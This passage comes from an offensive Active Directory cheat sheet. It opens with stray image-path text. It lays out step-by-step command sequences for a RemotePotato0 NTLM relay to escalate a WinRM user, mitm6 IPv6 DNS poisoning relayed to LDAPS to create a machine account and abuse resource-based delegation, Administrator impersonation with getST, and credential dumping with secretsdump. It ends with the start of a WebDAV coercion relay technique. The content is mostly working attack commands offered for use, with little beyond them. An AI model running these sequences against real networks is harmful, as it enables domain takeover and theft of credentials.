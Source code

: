 Requirements:

- a shell in session 0 (e.g. WinRm shell or SSH shell)
- a privileged user is logged on in the session 1 (e.g. a Domain Admin user)

```powershell
# https://github.com/antonioCoco/RemotePotato0/
Terminal> sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 & # Can be omitted for Windows Server <= 2016
Terminal> sudo ntlmrelayx.py -t ldap://192.168.83.135 --no-wcf-server --escalate-user winrm_user_1
Session0> RemotePotato0.exe -r 192.168.83.130 -p 9998 -s 2
Terminal> psexec.py 'LAB/winrm_user_1:Password123!@192.168.83.135'
```


## DNS Poisonning - Relay delegation with mitm6

Requirements: 

- IPv6 enabled (Windows prefers IPV6 over IPv4)
- LDAP over TLS (LDAPS)

> ntlmrelayx relays the captured credentials to LDAP on the domain controller, uses that to create a new machine account, print the account's name and password and modifies the delegation rights of it.

```powershell
git clone https://github.com/fox-it/mitm6.git 
cd /opt/tools/mitm6
pip install .

mitm6 -hw ws02 -d lab.local --ignore-nofqnd
# -d: the domain name that we filter our request on (the attacked domain)
# -i: the interface we have mitm6 listen on for events
# -hw: host whitelist

ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad
ntlmrelayx.py -ip 10.10.10.10 -t ldaps://dc01.lab.local -wh attacker-wpad --add-computer
# -ip: the interface you want the relay to run on
# -wh: WPAD host, specifying your wpad file to serve
# -t: the target where you want to relay to

# now granting delegation rights and then do a RBCD
ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad
getST.py -spn cifs/target.lab.local lab.local/GENERATED\$ -impersonate Administrator  
export KRB5CCNAME=administrator.ccache  
secretsdump.py -k -no-pass target.lab.local  
```


## Relaying with WebDav Trick

> Example of exploitation where you can coerce machine accounts to authenticate to a host and combine it with Resource Based Constrained Delegation to gain elevated access. It allows attackers to elicit authentications made over HTTP instead of SMB
